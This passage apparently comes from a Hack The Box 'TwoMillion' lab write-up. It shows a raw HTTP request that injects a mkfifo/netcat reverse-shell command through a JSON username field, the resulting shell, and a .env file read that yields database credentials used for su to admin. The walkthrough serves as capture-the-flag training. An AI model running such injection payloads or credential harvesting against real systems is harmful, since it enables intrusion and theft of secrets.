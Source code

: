 The user is now set as admin which will allow access to the below endpoint as long as a new PHPSESSID is generated after the modification. This endpoint generates an OpenVPN certificate for admin users. The generated certificate was a rabbithole. This endpoint was vulnerable to command injection. Below is the request used to obtain a reverse shell.

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://2million.htb/home/access
DNT: 1
Connection: close
Cookie: PHPSESSID=8c4gbnojk6ec2h69htfgqkjo5v
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 101

{
"username":"test; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.76 9001 >/tmp/f"
}
```
## Reverse shell returned (www-data) 
```
┌─[parrot@parrotos]─[~/htb/twomillion]
└──╼ $nc -lvnp 9001             
listening on [any] 9001 ...
connect to [10.10.14.76] from (UNKNOWN) [10.129.229.66] 41268                          
/bin/sh: 0: can't access tty; job control turned off                                   
$ 
```
# Enumerating web directory - finding DB password
```
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun 25 17:20 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun 25 17:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuper******
```
# Logging in as admin with DB creds
```
www-data@2million:~/html$ su - admin
Password: 
```